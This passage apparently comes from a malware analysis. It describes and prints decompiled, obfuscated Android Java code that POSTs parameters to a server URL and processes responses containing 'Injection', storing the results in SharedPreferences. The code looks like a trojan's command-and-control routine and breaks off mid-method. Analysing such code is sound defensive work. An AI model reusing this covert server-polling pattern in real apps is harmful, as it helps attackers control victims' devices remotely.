 
It Initializes an OkHttpClient  object with different timeouts, constructs a FormBody using the parameters provided in the HashMap. Creates and sends HTTP POST request with the parameters.
If the response is valid and contains the string “Injection”,it  processes the response further, splits the result and invokes several functions, some of which appears to store values in SharedPreferences. Then it stores the result in the “obtainal” key.

```java

public static String undissuadably(final Context context, String url, HashMap<String, String> params) {
    try {
        fiddlebow = new OkHttpClient();
        OkHttpClient.Builder builder = new OkHttpClient.Builder();
        TimeUnit timeUnit = TimeUnit.SECONDS;
        fiddlebow = builder
            .connectTimeout(50L, timeUnit)
            .writeTimeout(50L, timeUnit)
            .readTimeout(50L, timeUnit)
            .callTimeout(50L, timeUnit)
            .build();
        
        final FormBody.Builder builder2 = new FormBody.Builder();
        nonstylized = builder2;
        Objects.requireNonNull(builder2);
        
        params.forEach(new BiConsumer<String, String>() {
            @Override
            public void accept(String key, String value) {
                builder2.add(key, value);
            }
        });
        
        spekboom = nonstylized.build();
        
        Request build = new Request.Builder()
            .addHeader("Content-Type", "text/plain; charset=utf-8")
            .addHeader("Connection", "close")
            .url(url)
            .post(spekboom)
            .build();
        
        Custer = build;
        
        fiddlebow.newCall(build).enqueue(new Callback() {
            @Override
            public void onFailure(Call call, IOException e) {
            }
 
            @Override
            public void onResponse(Call call, Response response) throws IOException {
                String effluvias = "cn";
                if (response.isSuccessful()) {
                    try {
                        String res = response.body().string();
                        veepees.obtainal = res;
                        try {
                            if (!res.isEmpty()) {
                                veepees.obtainal = Tamarix.Uriiah(res);
                            }
                        } catch (Exception e) {
                        }
                        if (!Tamarix.bedamned(context, effluvias).contains(veepees.obtainal)) {
                            if (veepees.obtainal.contains("Injection")) {
                                String[] split = veepees.obtainal.trim().split(":");
```